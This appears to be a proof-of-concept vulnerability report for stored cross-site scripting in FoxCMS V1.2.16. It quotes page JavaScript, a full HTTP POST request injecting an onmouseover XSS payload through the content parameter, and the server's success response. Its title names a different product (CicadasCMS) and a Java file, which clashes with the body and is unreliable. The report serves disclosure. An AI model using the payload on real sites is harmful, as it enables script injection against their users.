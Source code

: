 CicadasCMS - Cross Site Scripting on (src/main/java/com/zhiliao/common/template/TemplateFileServiceImpl.java content parameter) 

Vendor Homepage:
```
https://gitee.com/qianfox/foxcms
```

Version: 

```
V1.2.16
```

Tested on: 

```
PHP, Nignx, MySQL
```

Affected Page:

```
app/admin/view/article/add.html
```

On this page, content parameter is vulnerable to Cross Site Scripting

```
foxui.dialog({
	title: '保存',
	content: '您确定要保存吗',
	cancelText: '取消',
	confirmText: '保存',
	confirm: function(callback) {
	    foxui.loading({text:"发布中"});
		ajaxR("{:url('add')}","post",curData,{},function(res) {
					if (res.code == 1) {
						foxui.message({
							type: 'success',
							text: res.msg
						});
						if(res.data != ""){
							let params = res.data;
							if(params.oneId && params.oneId == "key3"){
								addDataBuildDetail(params);
								singleAllSite(params);
							}
							foxui.closeLoading();
						}
						window.location.href=document.referrer;//返回并且刷新
					} else {
						foxui.message({
							type: 'warning',
							text: res.msg
						})
					}
					foxui.closeLoading();
				},
				function(res) {
					foxui.message({
						type: 'warning',
						text: res.responseJSON.msg
					})
					foxui.closeLoading();
				})
		callback();
	},cancel: function() {
		foxui.message({
			type: 'warning',
			text: "取消"
		})
	},
})
```

Function point location：

![image-20250922133355180](C:\Users\xmttz\AppData\Roaming\Typora\typora-user-images\image-20250922133355180.png)

Request:

```
POST /index.php/admin4435/Article/add.html HTTP/1.1
Host: www.foxcms.cms
Content-Length: 246
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36 Edg/140.0.0.0
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://www.foxcms.cms
Referer: http://www.foxcms.cms/index.php/admin4435/Article/add.html?type=1&bcid=2_11
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=7c8341b30311677309e6835915d1b2c9; access_127_0_0_1=1761037029
Connection: close

title=test-xss1&brief_title=&article_field=&column_id=11&column=%E4%BC%81%E4%B8%9A%E5%8A%A8%E6%80%81&breviary_pic_id=&keywords=&description=&article_source=&author=&team_status=%2C&content=<input+onmouseover=alert(1)+/>&release_time=&click=&tags=
```

Response:

```
HTTP/1.1 200 OK
Server: nginx/1.15.11
Date: Tue, 21 Oct 2025 10:05:15 GMT
Content-Type: application/json; charset=utf-8
Connection: close
X-Powered-By: PHP/7.3.4
Access-Control-Allow-Credentials: true
Access-Control-Max-Age: 1800
Access-Control-Allow-Methods: GET, POST, PATCH, PUT, DELETE, OPTIONS
Access-Control-Allow-Headers: Authorization, Content-Type, If-Match, If-Modified-Since, If-None-Match, If-Unmodified-Since, X-CSRF-TOKEN, X-Requested-With
Access-Control-Allow-Origin: http://www.foxcms.cms
Set-Cookie: PHPSESSID=7c8341b30311677309e6835915d1b2c9; expires=Wed, 22-Oct-2025 10:05:15 GMT; Max-Age=86400; path=/
Content-Length: 59

{"code":1,"msg":"操作成功","data":"","url":"","wait":1}
```
